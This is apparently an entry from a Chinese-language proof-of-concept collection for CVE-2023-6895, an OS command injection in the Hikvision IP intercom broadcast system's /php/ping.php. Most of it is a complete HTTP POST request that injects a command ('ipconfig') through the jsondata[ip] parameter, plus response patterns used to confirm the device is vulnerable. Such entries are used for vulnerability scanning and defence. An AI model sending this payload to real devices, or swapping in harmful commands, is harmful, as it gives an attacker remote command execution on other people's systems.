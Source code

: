 ﻿# 海康威视IP网络对讲广播系统远程命令执行

> 更新时间：2023-12-18

> 漏洞编号：CVE-2023-6895

> 漏洞说明：海康威视对讲广播系统3.0.3_20201113_RELEASE(HIK)存在漏洞。它已被宣布为关键。该漏洞影响文件/php/ping.php 的未知代码。使用输入 netstat -ano 操作参数 jsondata[ip] 会导致 os 命令注入。影响版本:v3.0.3_20201113_RELEASE(HIK)

> 漏洞特征：

> 验证脚本：HTTP

```
POST /php/ping.php HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

jsondata[type]=3&jsondata[ip]=ipconfig
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?IP)(?=.*?Address).*?$

> 上传文件定位：


> 验证文件来源：海康威视IP网络对讲广播系统远程命令执行.poc
